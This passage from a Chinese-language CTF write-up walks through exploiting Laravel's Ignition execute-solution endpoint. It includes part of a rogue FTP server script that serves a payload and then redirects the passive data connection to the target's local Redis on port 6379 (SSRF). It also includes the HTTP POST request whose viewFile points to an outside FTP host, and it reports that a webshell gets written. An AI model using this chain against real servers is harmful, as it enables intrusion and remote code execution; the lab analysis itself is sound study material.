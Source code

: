 ```python
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 47,101,57,72,0,2333\n")  # 服务端告诉客户端需要到那个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,0,6379\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 Payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:6379，也就是目标主机上 Redis 服务的端口，从而造成 SSRF，攻击其 Redis。

运行 ftp_redirect.py：

![img](https://p0.ssl.qhimg.com/t010e57181bca5ddd9c.png)

然后发送请求就行了：

```python
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.41.107:8077
Content-Type: application/json
Content-Length: 190

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "ftp://aaa@47.101.57.72:23/123"
  }
}
```

![img](https://p2.ssl.qhimg.com/t01af779f700cb38433.png)

执行后，成功写入 Webshell，然后读取 flag 就行了：

![img](https://p1.ssl.qhimg.com/t0155c2eabe534cd30b.png)
